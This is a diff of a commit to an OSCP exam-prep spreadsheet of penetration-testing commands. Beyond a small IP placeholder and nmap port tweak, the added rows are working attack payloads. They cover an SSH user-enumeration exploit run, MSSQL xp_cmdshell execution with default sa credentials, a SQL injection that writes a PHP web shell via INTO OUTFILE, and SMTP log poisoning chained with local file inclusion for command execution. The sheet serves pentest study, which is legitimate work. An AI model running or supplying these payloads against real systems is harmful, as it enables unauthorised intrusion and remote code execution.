

Before and after one commit to ashwinragul89/OSCP, an Excel workbook: OSCP - checklist_v0.1.xlsm, sheet Commands, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; charts and pictures and table styles not drawn; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/OSCP - checklist_v0.1.xlsm (sheet Commands)
+++ b/OSCP - checklist_v0.1.xlsm (sheet Commands)
-B2: <kali_ip>
+B2: (empty)
-D2: 10.11.1.128
+D2: <victim_ip>
-row 3: (empty)
-E49: …--script smb-enum-shares -p139,445 -T4 -Pn…
+E49: …--script smb-enum-shares -p139,135,445 -T4 -Pn…
+row 284: 22 - ssh | Linux | nmap | Bruteforce | python 40136.py 192.168.100.31 -U /usr/share/wordlists/metasploit/unix_users.txt -e --trials 5 --bytes 10
+row 285: (empty)
+row 286: 1433 - mssql | Windows | nmap | Xp_cmdshell | nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="whoami" <victim_ip>
+row 287: 3306 - mysql | Linux | website sqli | into outfile | 25 and 1=0 union all select 1,2,3,4, "<?php system($_GET[‘cmd’]); ?>",6,7,8,9,10,11,12,13,14,15,16,17,18,19,20 INTO OUTFILE “/var/www/html/shell.php --
+row 288: 25 - smtp | Linux / Windows | LFI | SMTP Shell | telnet 192.168.1.107 25
+row 289: 25 - smtp | Linux / Windows | LFI | SMTP Shell | MAIL FROM:<ashwin@gmail.com>
+row 290: 25 - smtp | Linux / Windows | LFI | SMTP Shell | RCPT TO:<?php system($_GET['c']); ?>
+row 291: 25 - smtp | Linux / Windows | LFI | SMTP Shell | 192.168.1.107/lfi/lfi.php?file=/var/log/mail.log&c=id
```
Also changed, not shown: sheet Pre-Exploitation, hidden cells, charts or pictures, BOF_Cheatsheet.xlsx.
